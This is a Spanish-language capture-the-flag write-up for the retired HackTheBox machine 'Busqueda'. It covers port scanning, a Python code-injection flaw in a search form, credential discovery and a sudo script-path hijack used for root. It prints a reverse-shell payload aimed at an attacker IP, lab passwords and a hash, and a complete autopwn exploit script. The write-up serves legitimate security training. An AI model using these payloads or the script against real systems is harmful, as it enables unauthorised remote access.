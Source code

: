 ```yaml
---
title: Busqueda
layout: page
permalink: /HTB_Busqueda
---
```


<h2 class="amarillo">HackTheBox - Busqueda WriteUp - Máquina retirada</h2>
<div id="logos" style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/Busqueda.png" alt="under" oncontextmenu="return false;">
</div>
Comenzamos encendiendo la maquina busqueda y nos dará la dirección IP 10.129.232.124, probamos a lanzarle cinco trazas ICMP para verificar que la maquina esta activa y de paso por el TLL identificar a que sistema operativo nos estamos enfrentando (Si Linux o Windows)
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/1.png" alt="under" oncontextmenu="return false;">
</div>

Vemos un TLL de 63 por tanto estamos frente a una maquina Linux

<h2 class="amarillo">Enumeración</h2>

Para la enumeración comenzamos con nmap para hacer un escaneo a todo el rango de puertos identificando aquellos que estén abiertos

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.232.124
```

Y exportamos la captura de nmap en allPorts
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/2.png" alt="under" oncontextmenu="return false;">
</div>


Como unicamente vemos el puerto 22 y 80 procedemos a lanzar una serie de scripts básicos de reconocimiento para identificar la version y servicio que corren para estos puertos
```bash
nmap -p22,80 -sCV 10.129.232.124
```
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/3.png" alt="under" oncontextmenu="return false;">
</div>


Vemos un servicio http, probamos a enumerar las tecnologías que puedan estar ejecutándose en el servicio web con la herramienta whatweb
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/4.png" alt="under" oncontextmenu="return false;">
</div>


Vemos que nos esta haciendo un redirect al dominio searcher.htb, una vez agregado al /etc/hosts probamos nuevamente a enumerar con whatweb
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/5.png" alt="under" oncontextmenu="return false;">
</div>


Y ya me llama la atención que este ejecutando un Werkzeug y Python, por tanto buscamos con searchsploit si existe alguna vulnerabilidad asociada
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/6.png" alt="under" oncontextmenu="return false;">
</div>


No vemos nada interesante entonces pasamos directamente a la web que encontramos
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/7.png" alt="under" oncontextmenu="return false;">
</div>


La web nos dice que podemos hacer búsquedas desde un motor cualquiera, asi que si interceptamos la petición con BurpSuite veremos mas a detalle como se esta manejando la información
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/8.png" alt="under" oncontextmenu="return false;">
</div>


Y vemos que por POST se esta tramitando las variables engine y query
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/9.png" alt="under" oncontextmenu="return false;">
</div>


EL campo query es vulnerable a RCE con python entonces podemos probar a entablarnos una reverse shell
```python
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.55',443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Y logramos entrar a la maquina
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/10.png" alt="under" oncontextmenu="return false;">
</div>


# Escalada

Para la escalada enumerando un poco el sistema veremos que hay un directorio oculto .git el cual cuenta con un usuario cody y nos permite acceder a un nuevo dominio **gitea.searcher.htb**
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/11.png" alt="under" oncontextmenu="return false;">
</div>


Agregando este dominio al /etc/hosts podremos acceder a Gitea
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/12.png" alt="under" oncontextmenu="return false;">
</div>


Resulta que podremos iniciar sesión como cody ya que tenemos su contraseña
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/13.png" alt="under" oncontextmenu="return false;">
</div>

Podemos probar a enumerar si tenemos algún privilegio asignado a nivel de sudoers con las credenciales de cody
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/14.png" alt="under" oncontextmenu="return false;">
</div>


Y correcto, vemos que podemos ejecutar el binario de python3 sobre un script, asi que listando un poco el contenido de este
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/15.png" alt="under" oncontextmenu="return false;">
</div>



Probamos a enumerar un poco, en especial el gitea
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/16.png" alt="under" oncontextmenu="return false;">
</div>
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/17.png" alt="under" oncontextmenu="return false;">
</div>

Veremos un nombre de usuario de base de datos y su contraseña
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/18.png" alt="under" oncontextmenu="return false;">
</div>


`gitea:yuiu1hoiu4i5ho1uh`
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/19.png" alt="under" oncontextmenu="return false;">
</div>


También encontraremos las credenciales de un root

`root:jI86kGUuj87guWr3RyF`
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/20.png" alt="under" oncontextmenu="return false;">
</div>


Si intentamos conectarnos con mysql al contenedor docker por la 172.19.0.3 podremos hacerlo
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/21.png" alt="under" oncontextmenu="return false;">
</div>


Ya solo queda enumerar esta base de datos para encontrar alguna credencial
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/22.png" alt="under" oncontextmenu="return false;">
</div>



Y tendremos administrator y cody del servicio gitea
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/23.png" alt="under" oncontextmenu="return false;">
</div>


La cual podremos crackear :

`ba598d99c2202491d36ecf13d5c28b74e2738b07286edc7388a2fc870196f6c4da6565ad9ff68b1d28a31eeedb1554b5dcc2`

Y seguido conectarnos como administrator en gitea
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/24.png" alt="under" oncontextmenu="return false;">
</div>


Revisando un poco el gitea veremos una copia legible del script que estábamos ejecutando como root, donde encontramos el vector de ataque y es que el script esta buscando en el directorio actual de trabajo el archivo ./fulll-checkup.sh
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/25.png" alt="under" oncontextmenu="return false;">
</div>


Simplemente tendremos que secuestrar ese binario creando nuestro propio full-checkup.sh malicioso que asigne el privilegio SUID a la bash
<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/26.png" alt="under" oncontextmenu="return false;">
</div>



De paso compartir el script autopwn para la maquina:
```python
#!/usr/bin/env python3
# Author: Juan Garcia aka liandd
import signal
import sys
from termcolor import colored
import requests
import argparse
import threading
from pwn import *


# Ctrl_C
def def_handler(sig, frame):
    print(colored("\n\n[!] Saliendo...", "red"))
    sys.exit(1)


# Ctrl_C
signal.signal(signal.SIGINT, def_handler)


def get_arguments():
    parser = argparse.ArgumentParser(
        description=colored("AutoPwn Busqueda", "red")+colored(" HTB", "green")+" by "+colored("liandd", "red"))
    parser.add_argument('-u', '--url', dest="URL",
                        help="Machine URL to Pwn (i.e --url http://searcher.htb)")
    parser.add_argument('-i', '--ip', dest="IP",
                        help="IP address to get shell (i.e --IP 10.10.16.42)")
    parser.add_argument('-p', '--port', dest="PORT",
                        help="PORT to get shell (i.e --port 443)")

    options = parser.parse_args()
    if options.URL is None or options.IP is None or options.PORT is None:
        parser.print_help()
        print("\n\n")
        sys.exit(1)
    return options.URL, options.IP, options.PORT


def searchorExploit(URL, IP, PORT):
    reverse = """', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('%s',%s));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#""" % (
        IP, PORT)

    data = {'engine': 'Yandex',
            'query': reverse}

    r = requests.post(URL + "/search", data=data)


def main():
    URL, IP, PORT = get_arguments()

    try:
        threading.Thread(target=searchorExploit, args=(URL, IP, PORT)).start()
    except Exception as e:
        print(colored(e, "red"))

    shell = listen(PORT, timeout=20).wait_for_connection()
    shell.interactive()


if __name__ == '__main__':
    main()
```

<div  style="text-align: center;">
  <img src="/assets/images/HTB/Busqueda/27.png" alt="under" oncontextmenu="return false;">
</div>

